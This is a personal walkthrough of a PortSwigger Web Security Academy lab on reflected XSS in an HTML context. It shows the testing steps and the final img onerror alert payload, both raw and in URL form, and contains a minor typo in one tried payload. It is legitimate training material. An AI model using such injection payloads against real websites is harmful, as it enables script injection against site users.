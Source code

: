 # Lab: Reflected XSS into HTML context with nothing encoded  
**Level:** APPRENTICE  

---

## 🔗 Lab URL  
[https://0a130085045e67ba8032039b00c5004a.web-security-academy.net/](https://0a130085045e67ba8032039b00c5004a.web-security-academy.net/)

---

## 🧪 Steps (My Approach)

1. ✅ **Typed `coffee`** in search → reflected in:
   - URL parameter  
   - Page body:  
     ```html
     <h1>0 search results for 'coffee'</h1>
     ```

2. ✅ **Tested `coffee">`**  
   → Output:  
   ```html
   <h1>0 search results for 'coffee">'</h1>
   ```

3. 🔄 **Tried basic XSS payload**:  
   ```html
   coffee<scripr>alert(1)</script></h1><!--
   ```
   ❌ Blocked: word `script` is filtered.

4. ✅ **Bypassed using `img` tag**:  
   ```html
   coffee<img src=x onerror="alert(1)"></h1><!--
   ```
   🎉 Success! Alert triggered → lab solved.

---

## ✅ Final Payload  
```html
<img src=x onerror="alert(1)">
```

Encoded in URL:  
```
?search=coffee<img src=x onerror="alert(1)"></h1><!--
```

---

## 🛠 Tools  
- Manual testing in browser  
- View Page Source  
- Tried different payloads (script bypass)

---

## 🎯 Goal  
Trigger a JavaScript alert using reflected XSS.

---

## 🧠 Notes  
- No filtering on special characters like `>`  
- Only `<script>` is blocked  
- Closing tags + `<!--` useful to preserve page layout

---

## ✅ Status: Solved
